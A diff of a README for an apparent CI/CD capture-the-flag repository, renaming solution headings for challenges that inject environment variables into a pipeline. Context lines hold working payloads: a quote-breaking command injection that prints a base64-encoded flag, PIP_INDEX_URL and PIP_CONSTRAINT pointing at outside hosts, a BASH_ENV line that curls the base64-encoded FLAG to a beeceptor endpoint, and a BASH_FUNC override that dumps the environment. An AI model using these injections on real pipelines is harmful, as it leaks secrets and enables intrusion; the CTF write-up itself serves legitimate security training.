

Before and after one commit to Nebouh/tdf-ctf-cicd, a Markdown page: README.md, 3 parts joined by grey strips. Rendered like a GitHub page; folded sections open.

````diff
--- a/README.md
+++ b/README.md
@@ -11,6 +11,6 @@
       <ul>
-        <li><a href="#prerequisites">Solution 1</a></li>
-        <li><a href="#installation">Solution 2</a></li>
+        <li><a href="#using-pip_index_url">Using PIP_INDEX_URL</a></li>
+        <li><a href="#using-pip_constraint">Using PIP_CONSTRAINT</a></li>
       </ul>
     </li>
     <li>
@@ -35,7 +35,7 @@ Hello, there!'; echo "Here is your flag: ${FLAG}" | base64 ;echo 'General Kenobi
 
 
 # Chall 2
-## Solution 1
+## Using PIP_INDEX_URL
 > [!NOTE]
 > - [PIP environment variables doc](https://pip.pypa.io/en/latest/cli/pip_install/) PIP_<UPPER_LONG_NAME>
 > - [Pypi PyYAML](https://pypi.org/project/PyYAML/)
@@ -55,7 +55,7 @@ PIP_INDEX_URL=https://cloudsmith.io/~nebco/packages/#
 
 
 
-## Solution 2
+## Using PIP_CONSTRAINT
 > [!NOTE]
 > - [Beeceptor](https://beeceptor.com/)
 > - [Beeceptor for the demo](https://app.beeceptor.com/console/tdf123456)
@@ -75,7 +75,7 @@ PIP_CONSTRAINT=https://tdf123456.free.beeceptor.com/get-flag
 
 
 # Chall 3
-## Solution 1
+## Using BASH_ENV
 > [!NOTE]
 > - [Bash variables doc](https://www.gnu.org/software/bash/manual/html_node/Bash-Variables.html)
 > - [Beeceptor](https://beeceptor.com/)
@@ -90,7 +90,7 @@ BASH_ENV=$(curl https://tdf123456.free.beeceptor.com?flag=$(echo "$FLAG" | base6
 
 
 
-## Solution 2
+## Using BASH_FUNC
 ``` bash
 Not a release :(
 BASH_FUNC_echo%%=() { builtin echo "coucou $@" | printenv | base64 ;}
````
Also changed, not shown: other parts of README.md (+3 -3 lines).
